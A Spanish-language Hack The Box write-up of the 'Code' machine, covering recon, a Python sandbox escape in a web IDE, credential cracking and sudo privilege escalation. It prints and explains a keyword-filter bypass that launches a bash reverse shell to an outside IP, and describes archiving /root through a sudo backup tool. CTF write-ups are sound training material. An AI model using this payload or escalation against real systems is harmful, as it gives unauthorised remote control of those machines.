

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP    |
| :-----: | :---: | :--------: | :----------: | :------: |
|  CODE   | LINUX |   FACIL    | HACK THE BOX | CODE.HTB |
## *Reconocimiento*

Comenzamos con un escaneo simple a la IP generada en Hack the box para esta maquina y se encuentra 2 puertos abiertos.



En la búsqueda de directorios solo encontramos los que trae la pagina principal, no había mucho que buscar y tampoco se hallaron subdominios.

## *Análisis de vulnerabilidades*

La pagina trae un entorno de desarrollo con el lenguaje python, entre muchos códigos que podamos hacer hay una limitación a la hora de importar módulos, la pagina no nos permite trabajar con palabras clave




Con ayuda de un foro encontré una solución para bypassear una reverse shell en python. Como no comprendí muy bien este código hice que chatgpt me aclarara.

```python
().__class__.__base__.__subclasses__()[317](
["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])
```
## 🔍 **Paso a paso de la ejecución**

1️⃣ `()` → **Crea una instancia de un objeto vacío**

- En Python, `()` representa un **objeto sin definir**.
    
- Luego, se accede a sus atributos internos.
    

2️⃣ `().__class__` → **Obtiene la clase del objeto**

- `().__class__` devuelve `<class 'tuple'>`, ya que `()` es una tupla vacía.
    

3️⃣ `().__class__.__base__` → **Obtiene la clase base de la tupla**

- La clase base de `tuple` en Python es `object`, por lo que `().__class__.__base__` devuelve `<class 'object'>`.
    

4️⃣ `().__class__.__base__.__subclasses__()` → **Lista todas las subclases de `object`**

- En Python, `object` es la clase base de todo.
    
- `.subclasses__()` devuelve una lista de **todas las clases derivadas** de `object` en memoria.
    

5️⃣ `()[317]` → **Accede a una clase específica**

- `__subclasses__()` devuelve una lista de cientos de clases.
    
- `317` es el índice de la clase que queremos (que en muchas versiones de Python es `subprocess.Popen` o similar).
    

6️⃣ `()[317]([...])` → **Ejecuta un comando con `subprocess.Popen`**

- `[317]` selecciona la clase `subprocess.Popen`.
    
- Se ejecuta con `(["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.132/1234 0>&1"])`.

## *Explotación*


Antes de correr el script debo estar en escucha para poder tener la reverse shell. Ejecuto el script y tengo acceso a la ruta de producción.



Encuentro las palabras claves que no podían ser leídas por el IDE.



Saliendo de la ruta app encontramos la primera flag de usuario.


Seguía indagando y encontré una base de datos con sus usuarios y contraseñas hasheadas





Ya con la credencial de martin accedo al ssh y nos encontramos con un archivo json y otro comprimido. Quiero saber que trae el archivo json y encuentro lo siguiente.




## *Post-Explotación*

Con la ayuda del operador EOF puedo editar un archivo usando **cat**, lo que haria este archivo es traer el directorio en donde se encuentre /root/root.txt y comprimirlo. Para que este puede ejecutarse acudimos a sudo y el comando el cual martin puede trabajar, llamamos al mismo tiempo al archivo y comienza a comprimirse.



Revisamos y tenemos un nuevo archivo comprimido con extension .tar, descomprimimos y tenemos la carpeta root con su flag.


